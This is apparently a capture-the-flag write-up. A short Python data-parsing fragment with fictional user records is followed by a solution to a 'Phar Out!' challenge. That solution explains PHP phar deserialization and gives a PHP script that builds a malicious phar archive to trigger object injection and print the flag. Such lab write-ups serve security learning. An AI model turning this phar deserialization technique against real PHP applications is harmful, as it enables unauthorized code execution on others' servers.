 ```python
       '["age":28, "user_name":"Shoshana Bickett", "Group":"Yellow"],["age":69, "user_name":"Madeleine Swallow", ' \
       '"Group":"Green"],["age":41, "user_name":"Buddy Etter", "Group":"Black"],+++,God fire,["age":26, ' \
       '"user_name":"Carlene Caulder", "Group":"Green"],["age":43, "user_name":"Napoleon Peay", "Group":"Purple"],' \
       '["age":44, "user_name":"Noemi Constant", "Group":"Green"] '
group_name = data.split('|')[0]
blob = data.split('|')[1]
result_names_list = ParseNamesByGroup(blob, group_name)
print(result_names_list)
```

---

## Phar Out! 125
As the name suggests, this challenge has something to do with well known vulnerability related with PHP object deserialisation through phar (PHP Archive) stream wrapper.
We are given the source code of the website and after examining it, the solution becomes quite clear:
1. Website lets you to upload anything and computes MD5 for it. When computing, it accesses upload throuh file:// stream wrapper *unless you set s parameter to p*. In that case it uses phar:// and that's what we want. Also note that index.php has include("wrapper.php");
2. After looking into two other files, it is clear that we want Doit() object to be created, because that would cause flag to be printed.
3. We create an instance of Wrapper() class and set it's private variable through reflection to something. Then we add this instance to minimal phar file which then gets uploaded to the site together with request's parameter s set to p. And we get the flag.

```php
<?php
include("wrapper.php");

$phar = new Phar('exploit.phar');

// add a dummy file to stay within phar specifications
$phar->addFromString("test.txt", "test");

$wrapperObj = new Wrapper();

// Set private variable
$reflection = new \ReflectionProperty(get_class($wrapperObj), 'doit');
$reflection->setAccessible(true);
$reflection->setValue($wrapperObj, 'value');

// add our object
$phar->setMetadata($wrapperObj);
?> 
```

---
